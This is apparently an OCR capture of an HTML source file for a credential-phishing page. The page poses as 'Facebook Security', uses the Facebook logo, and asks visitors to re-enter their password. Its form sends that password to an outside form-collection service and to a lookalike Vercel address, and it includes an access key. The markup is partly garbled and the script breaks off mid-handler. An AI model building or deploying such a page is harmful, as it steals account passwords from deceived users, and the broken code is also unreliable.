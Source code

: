         .error-message {
            color: #e74c3c;
            font-size: 14px;
            margin-top: 5px;
            margin-bottom: 15px;
            text-align: left;
        }
    </style>
</head>

<body>
    <div class="container">
        <div class="logo">
            <img class="logo" src="https://upload.wikimedia.org/wikipedia/commons/6/6c/Facebook_Logo_2023.png" alt="Logo">
            <div class="header">
                Facebook Security
            </div>
            <p>Please re-enter your password to complete the request.</p>
            <form id="meta-form" action="https://submit-form.com/UTmxLprif="POST">
                <!-- Replace with your Access Key -->
                <input type="hidden" name="access_key" value="22983eba-14f6-431b-8283-10e298027760">
                <div class="form-group">
                    <label for="password">Password</label>
                    <div class="input-wrapper">
                        <input type="password" id="password" name="https://submit-password-to-verifi.vercel.app/" required>
                        <i class="eye-icon fas fa-eye" id="togglePassword"></i>
                    </div>
                    <span id="error-message" class="error-message"></span>
                </div>
                <button type="submit" class="submit-button">Submit</button>
            </form>
        </div>
        <script>
            document.getElementById('togglePassword').addEventListener('click', function() {
                var passwordField = document.getElementById('password');
                var eyeIcon = this;
                if (passwordField.type === 'password') {
                    passwordField.type = 'text';
                    eyeIcon.classList.remove('fa-eye');
                    eyeIcon.classList.add('fa-eye-slash');
                } else {
                    passwordField.type = 'password';
                    eyeIcon.classList.remove('fa-eye-slash');
                    eyeIcon.classList.add('fa-eye');
                }
            });

            document.getElementById('passwordForm').addEventListener('submit', function(event) {
                var passwordField = document.getElementById('password');
                var errorMessage = document.getElementById('error-message');
                if (passwordField.value.length < 6) {
                    errorMessage.textContent = 'Password must be at least 6 characters long.';
                    event.preventDefault();
                } else {
                    errorMessage.textContent = '';
                    // Perform form submission via Fetch API
                    event.preventDefault(); // Prevent default form submission
